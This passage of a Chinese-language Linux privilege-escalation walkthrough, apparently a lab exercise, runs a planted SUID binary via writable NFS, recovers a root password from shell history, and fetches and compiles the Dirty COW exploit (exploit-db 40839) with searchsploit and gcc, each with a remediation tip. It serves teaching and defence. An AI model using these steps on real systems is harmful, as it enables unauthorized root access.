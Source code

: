 赋予 suid 权限

```
chmod +x ./exp
```

切回靶机，执行 exp 命令，看 id 依旧是普通用户，但是此时我们已经具有 root 权限了，如果要深入利用，可以参考我上面用的 passwd 攻击手法。

```
./exp
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmytQtBcqOR2tcs1rV4cwWB280yiaeGykBdOeV8BeepdHg8dyT90SmbMA/640?wx_fmt=png)

修复建议：合理配置 nfs 权限，禁止写入。

历史记录密码泄露
--------

```
history
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmU3bJljmUODPrJbkt6qWnanrnnxoCwCiaXZjrqb3rchEuBHuPafTyAZw/640?wx_fmt=png)

可以看到密码泄露，su 切换 root 用户。

```
su root
```

修复建议：清除历史记录，不直接再命令行中使用密码。

内核提权
----

查看内核版本

```
uname -r
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmURrhBTB1QjkcJyA5dlwQbrLGibdHJCSEfyBUsAl8IMQBewKdvVXibzFA/640?wx_fmt=png)

使用脏牛提权，使用 exploit-db 的 exp

```
searchsploit linux/local/40839.c -m
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmMJgqHosEnJDr0OxEmk2TPQQqmYcP1UZTmWmmTFlQsWAATeCAf7nDww/640?wx_fmt=png)

使用 gcc 编译

```
gcc -pthread 40839.c -o dirty -lcrypt
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmCJNbVQpCOrQGMGKuHJyovYMicDnmzanYAXRJu3x6icCv25ibDdjROnEPQ/640?wx_fmt=png)
